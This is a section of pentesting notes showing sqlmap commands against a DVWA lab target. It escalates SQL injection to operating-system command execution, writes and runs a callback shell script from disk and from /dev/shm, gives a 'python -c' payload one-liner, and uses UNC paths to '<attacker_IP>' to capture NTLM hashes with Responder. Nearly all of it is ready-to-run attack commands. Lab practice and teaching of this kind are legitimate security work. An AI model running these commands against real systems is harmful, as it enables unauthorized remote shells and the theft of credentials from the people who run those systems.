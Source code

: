 #### 4.4.1 - General

- Execute any command

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="whoami"
```

#### 4.4.2 - Linux

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-write="/path/to/shell.py" --file-dest="/tmp/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="python /tmp/shell.py"
```

- Execute the callback shell in memory (fileless memory)

1. Copy the file in `/dev/shm/` directory

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --file-write="/path/to/shell.py" --file-dest="/dev/shm/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="python /dev/shm/shell.py"
```

2. Execute a one liner

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="python -c <payload>"
```

#### 4.4.3 - Windows

##### 4.4.3.1 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="dir \\\\<attacker_IP>\\snare.txt"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --technique=U --os-cmd="net view \\\\<attacker_IP>\\snare.txt"
```
